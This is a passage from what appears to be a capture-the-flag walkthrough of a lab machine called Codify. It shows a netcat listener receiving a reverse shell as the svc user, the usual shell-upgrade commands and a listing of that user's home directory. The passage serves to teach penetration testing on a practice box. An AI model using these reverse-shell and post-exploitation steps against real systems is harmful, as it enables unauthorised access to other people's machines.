 On sending the code, the site hangs, but there’s a connection at `nc` with a
shell as the svc user:

    
    
    oxdf@hacky$ nc -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.239 35468
    bash: cannot set terminal process group (1264): Inappropriate ioctl for device
    bash: no job control in this shell
    svc@codify:~$ 
    

I’ll upgrade my shell using the [standard
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    svc@codify:~$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    svc@codify:~$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lvnp 443
                reset
    svc@codify:~$
    

## Shell as joshua

### Enumeration

#### Home Directories

The home directory for svc is basically empty (there is a `pwned` file I must
have created pasting a POC exploit in):

    
    
    svc@codify:~$ ls -la
    total 32
    drwxr-x--- 4 svc    svc    4096 Apr  4 11:00 .
    drwxr-xr-x 4 joshua joshua 4096 Sep 12  2023 ..
    lrwxrwxrwx 1 svc    svc       9 Sep 14  2023 .bash_history -> /dev/null
    -rw-r--r-- 1 svc    svc     220 Sep 12  2023 .bash_logout
    -rw-r--r-- 1 svc    svc    3771 Sep 12  2023 .bashrc
    drwx------ 2 svc    svc    4096 Sep 12  2023 .cache
    drwxrwxr-x 5 svc    svc    4096 Apr  3 20:53 .pm2
    -rw-r--r-- 1 svc    svc     807 Sep 12  2023 .profile
    -rw-r--r-- 1 svc    svc       0 Apr  4 13:25 pwned
    -rw-r--r-- 1 svc    svc      39 Sep 26  2023 .vimrc
    

There’s one other directory in `/home`, but svc can’t access it:

    
    